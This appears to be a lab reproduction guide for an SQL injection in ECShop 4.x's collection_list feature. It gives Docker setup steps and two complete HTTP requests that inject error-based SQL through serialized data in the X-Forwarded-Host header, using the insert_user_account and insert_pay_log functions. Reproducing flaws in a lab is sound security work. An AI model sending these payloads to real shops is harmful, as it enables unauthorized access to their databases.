


ECShop 4.x collection_list SQL Injection¶
ECShop is a popular open-source e-commerce system. A SQL injection vulnerability exists in the collection_list functionality of ECShop 4.x versions, which allows attackers to execute arbitrary SQL queries through the insert_ functions.
References:
Environment Setup¶
Execute the following command to start ECShop 4.0.6:
docker compose up -d
After the server starts, visit http://your-ip:8080 to begin the installation process. During installation:
- Set the database address to
mysql - Set both username and password to
root
Vulnerability Reproduction¶
The vulnerability is similar to xianzhi-2017-02-82239600, where arbitrary insert_ functions can be exploited for SQL injection.
Multiple insert_ functions can be used for exploitation. For example, using insert_user_account:
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close

Note: You must be logged in as a normal user before attempting exploitation.
Alternatively, you can use insert_pay_log as shown in this example:
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
